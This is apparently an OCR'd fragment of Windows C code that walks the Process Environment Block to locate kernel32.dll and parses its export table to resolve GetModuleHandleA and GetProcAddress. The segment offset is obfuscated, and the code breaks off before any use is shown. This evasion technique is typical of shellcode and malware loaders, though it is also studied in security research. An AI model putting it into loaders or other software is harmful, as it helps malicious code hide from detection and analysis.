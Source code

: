 ```

void execute()
{
long read = addr() / 14;
PPEB pPEB = (PPEB)__readfsdword(read);

PPEB_LDR_DATA pLoaderData = pPEB->Ldr;

PLIST_ENTRY listHead = &pLoaderData->InMemoryOrderModuleList;

PLIST_ENTRY listCurrent = listHead->Flink;

PVOID kernel32Address;
do
    {
PLDR_DATA_TABLE_ENTRY dllEntry = CONTAINING_RECORD(listCurrent, LDR_DATA_TABLE_ENTRY, InMemoryOrderLinks);

DWORD dllNameLength = WideCharToMultiByte(CP_ACP, 0, dllEntry->FullDllName.Buffer, dllEntry->FullDllName.Length, NULL, 0, NULL, NULL);

PCHAR dllName = (PCHAR)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, dllNameLength);

WideCharToMultiByte(CP_ACP, 0, dllEntry->FullDllName.Buffer, dllEntry->FullDllName.Length, dllName, dllNameLength, NULL, NULL);

        CharUpperA(dllName);

if (strstr(dllName, "KERNEL32.DLL"))
        {
kernel32Address = dllEntry->DllBase;

HeapFree(GetProcessHeap(), 0, dllName);

break;
        }
HeapFree(GetProcessHeap(), 0, dllName);

listCurrent = listCurrent->Flink;

} while (listCurrent != listHead);

PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)kernel32Address;

PIMAGE_NT_HEADERS pNtHeader = (PIMAGE_NT_HEADERS)((PBYTE)kernel32Address + pDosHeader->e_lfanew);

PIMAGE_OPTIONAL_HEADER pOptionalHeader = (PIMAGE_OPTIONAL_HEADER)&(pNtHeader->OptionalHeader);

PIMAGE_EXPORT_DIRECTORY pExportDirectory = (PIMAGE_EXPORT_DIRECTORY)((PBYTE)kernel32Address + pOptionalHeader->DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);

PULONG pAddressOfFunctions = (PULONG)((PBYTE)kernel32Address + pExportDirectory->AddressOfFunctions);
PULONG pAddressOfNames = (PULONG)((PBYTE)kernel32Address + pExportDirectory->AddressOfNames);

PUSHORT pAddressOfNameOrdinals = (PUSHORT)((PBYTE)kernel32Address + pExportDirectory->AddressOfNameOrdinals);


PGetModuleHandleA pGetModuleHandleA = NULL;

PGetProcAddress pGetProcAddress = NULL;

```